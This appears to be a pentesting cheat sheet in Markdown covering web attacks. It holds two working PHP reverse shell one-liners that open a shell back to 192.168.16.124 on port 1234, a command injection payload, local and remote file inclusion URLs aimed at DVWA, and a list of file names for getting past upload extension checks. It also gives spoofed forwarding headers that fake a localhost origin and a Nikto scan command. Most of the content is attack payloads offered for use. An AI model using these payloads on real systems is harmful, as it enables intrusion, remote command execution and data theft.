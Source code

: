 # WEB

PHP
===

Shells
------

* Reverse shell one-liners:
```
<?php $s=fsockopen(\"192.168.16.124\",1234);exec("sh<%263>%263 2>%263");?>  
<?php $s=fsockopen("192.168.16.124",1234);exec("sh<&3>&3 2>&3") ;?>
```

* [Weevely](https://github.com/epinna/weevely3/) - great command line web shell with good features


Command Injection
-----------------

* Try to use pipe, ampersands, etc. Example: `1 | uname -a & users & id`


Local File Inclusion
--------------------

Local: `http://localhost/dvwa/vulnerabilities/fi/?page=include.php`  
Remote: `http://localhost/dvwa/vulnerabilities/fi/?page=http://google.com/robots.txt`

File Upload
-----------

* Image upload restrictions [bypass](http://hackers2devnull.blogspot.lt/2013/05/how-to-shell-server-via-image-upload.html):

```
shell.jpg.php (satisfies as check for jpg only)
shell.jpg.PhP (obfuscation)
shell.php;.jpg (sometimes can ignore whats after ";")
shell.php%0delete0.jpg (the infamous NULL byte which comments out trailing text, remove the word delete so the zeros join together, blogspot strips this string!)
shell.php.test (defaults to first recognised extension ignoring "test")
shell.php.xxxjpg (still ends in .jpg, but not recognised extension so will default to php!)
.phtml (a commonly used php parsed extension often forgotten about!)
.php3/.php4/.php5 (valid PHP extensions possibly left out of extension blacklists)
```

* [evilarc](https://github.com/ptoomey3/evilarc) - creates zip files with dir traversal characters in their embedded path


IP Spoofing
-----------

Accept: */*
x-forwarded-for: 127.0.0.1  
x-remote-IP: 127.0.0.1  
x-originating-IP: 127.0.01  
x-remote-addr: 127.0.0.1  
x-remote-ip: 127.0.0.1  
x-forwarded-for 127.0.0.1  

Sometimes referer needs to be deleted in the request.

Nikto
-----

Simple scan:

```
perl nikto.pl -host http://www.example.com
```
